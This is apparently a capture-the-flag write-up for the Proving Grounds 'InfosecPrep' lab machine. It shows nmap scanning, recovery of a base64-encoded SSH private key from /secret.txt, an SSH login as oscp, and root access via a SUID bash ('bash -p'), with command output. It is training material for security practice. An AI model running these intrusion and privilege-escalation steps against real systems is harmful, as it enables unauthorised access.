 ```yaml
---
layout: default
title: InfosecPrep
parent: Proving Grounds Play
nav_order: 21
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/infosecprep]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.160.89
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-12 13:04 EST
Nmap scan report for 192.168.160.89
Host is up (0.073s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 91:ba:0d:d4:39:05:e3:13:55:57:8f:1b:46:90:db:e4 (RSA)
|   256 0f:35:d1:a1:31:f2:f6:aa:75:e8:17:01:e7:1e:d1:d5 (ECDSA)
|_  256 af:f1:53:ea:7b:4d:d7:fa:d8:de:0d:f2:28:fc:86:d7 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: OSCP Voucher &#8211; Just another WordPress site
|_http-generator: WordPress 5.4.2
| http-robots.txt: 1 disallowed entry
|_/secret.txt
|_http-server-header: Apache/2.4.41 (Ubuntu)
33060/tcp open  mysqlx?
| fingerprint-strings:
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp:
|     Invalid message"
|_    HY000

```

# Enumeration

---

## 80 | HTTP

![index](../../../assets/images/ctfs/proving_grounds/infosecprep/index.png)

The web site indicates there is a user _oscp_

Robots.txt indicates a root level file _secret.txt_

![robots](../../../assets/images/ctfs/proving_grounds/infosecprep/robots.png)

_/secret.txt_ contains string of text that appears to be Base64 encoded.

![encoded](../../../assets/images/ctfs/proving_grounds/infosecprep/encoded.png)

Decoding the Base64 encoded string provides a RSA private key.

![rsa](../../../assets/images/ctfs/proving_grounds/infosecprep/rsa.png)

# Exploitation

---

We have an RSA private key and a user _oscp_.

We can use both to connect to the SSH service running on the target.

```bash

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/infosecprep]
└─$ ssh -i id_rsa oscp@192.168.160.89
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 12 Nov 2023 06:07:32 PM UTC

  System load:  0.0                Processes:             211
  Usage of /:   25.4% of 19.56GB   Users logged in:       0
  Memory usage: 62%                IPv4 address for eth0: 192.168.160.89
  Swap usage:   0%


0 updates can be installed immediately.
0 of these updates are security updates.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

-bash-5.0$ id
uid=1000(oscp) gid=1000(oscp) groups=1000(oscp),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
-bash-5.0$

```

# Post-Exploitation

---

## Check SUID Permissions

```bash
find / -perm -u=s -type f 2>/dev/null
```

We can run _/usr/bin/bash_ with root privileges to get a root shell.

```bash
-bash-5.0$ /usr/bin/bash -p
bash-5.0# id
uid=1000(oscp) gid=1000(oscp) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd),1000(oscp)
bash-5.0# whoami
root
```
